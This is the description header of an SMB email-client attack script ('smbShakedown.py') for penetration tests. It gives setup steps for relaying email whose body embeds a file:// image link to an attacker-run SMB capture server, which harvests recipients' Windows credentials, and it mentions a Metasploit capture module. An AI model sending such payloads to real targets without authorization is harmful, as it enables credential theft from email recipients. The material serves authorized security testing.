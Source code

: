 #smbShakedown.py
    Description: A simplified SMB Email Client Attack script used for External/Internal pentests.
    Created by: Nick Sanzotta / @beamr
    Version: smbShakedown.py v 1.0

#External Pentest
    Virtual Private Server (VPS) recommended.
    If behind a firewall be sure to enable port forwarding for your SMB Capture Server.
    
    1.Configure SMTP Relay server address.
    2.Enter SMTP Relay server credentials. (anonymous connections not yet supported.)
    3.Configure "from" and "to" addresses.
    4.Enter SMBCapture Server IP address, so it can be place in body of email EX: <img src=file://127.0.0.1/image/foo.gif>
    5.SMBCapture Server does not have to be hosted locally.
    EX:(smbShakedown.py script can be ran locally on one system and a SMBCapture server can be hosted somewhere else like on a VPS server.

#Internal Pentest
    1.Configure SMTP Relay server address or your own locally hosted SMTP Server. (Looking into intergrated support.)
    <hmm... Does the client's Email server support relaying?>
    2.Enter SMTP Relay server credentials. (anonymous connections not yet supported.)
    3.Configure "from" and "to" addresses.
    4.Enter SMBCapture Server IP address, so it can be place in body of email EX: <img src=file://127.0.0.1/image/foo.gif>
    5.SMBCapture Server can be hosted locally since your testing an internal network right?
    (Will add in support to automatically launch MSF Console with auxiliary/server/capture/smb)

#To do:
    SMTP Auth option
    MSF Console option(auxiliary/server/capture/smb)
    Multiple recipient address support.
    SMTP local server option
    Create forked version.
